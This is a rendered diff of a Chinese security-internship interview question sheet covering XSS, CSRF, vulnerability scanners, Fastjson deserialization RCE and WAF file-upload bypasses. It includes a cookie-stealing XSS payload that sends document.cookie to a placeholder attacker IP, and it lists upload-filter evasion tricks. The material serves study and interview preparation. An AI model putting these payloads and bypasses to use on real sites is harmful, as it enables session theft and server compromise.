

Before and after one commit to Dgy0527/src, a Markdown page: xiaodi8(护网面试)/xx安全服务实习生面试题.md, the part around one of its changes. Shown at 93% size. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/xiaodi8(护网面试)/xx安全服务实习生面试题.md
+++ b/xiaodi8(护网面试)/xx安全服务实习生面试题.md
@@ -16,3 +16,21 @@
 # 8、XSS的类型及窃取Cookie的执行方式
 ## 类型:反射型(非持久)、存储型(持久)、DOM型
 ## 窃取方式:构造Payload ` <script>new Image().src="http://攻击者IP/?c="+document.cookie</script> ` 诱导用户访问.用户浏览器会带着自己的Cookie请求攻击者的服务器 ,攻击者通过查看服务器日志即可获取Cookie
+
+# 9、CSRF的原理、危害与防御手段
+## 原理:跨站请求伪造.攻击者诱导已登录目标网站的用户去访问攻击者构造的恶意页面,利用用户的合法身份(Cookie)向目标网站发送恶意请求
+## 危害:修改密码、转账、发帖、添加管理员账号
+## 防御:添加CSRF Token、验证Referer头、设置Cookie的SameSite属性、敏感操作要求二次验证(如输入原密码或短信验证码)
+
+# 10、漏扫工具(如Nessus/AWVS)的工作原理
+## 原理:基于漏洞特征库(CVE)和Poc(概念验证).扫描器会识别目标的服务、版本、中间件指纹,然后发送特定的探测请求,通过对比响应内容(如报错信息、特定回显),判断是否存在已知漏洞
+
+# 11、反序列化漏洞原理及利用(以Fastjson为例)
+## 原理:程序在将字节流/字符串反序列化为对象是,会自动调用对象中的特定方法(如getter、setter、构造函数).如果攻击者能控制输入,就能构造恶意的序列化数据,触发恶意代码执行
+## Fastjson利用:构造带有`@type`属性的JSON数据,指向恶意类(如`TemplatesImpl`),在反序列化时触发`getter`方法,导致远程代码执行(RCE)
+
+# 12、有WAF的情况下如何绕过文件上传
+## 修改`Content-Type`(如改为`image/jpeg`)
+## 修改文件头(如添加`GIF89a`)
+## 扩展名变形(`php5`、`phtml`、`php.`、大小写混写、双写`pphphp)
+
```
Also changed, not shown: other parts of xiaodi8(护网面试)/xx安全服务实习生面试题.md (+18 -0 lines), img-2/image-25.png (added).
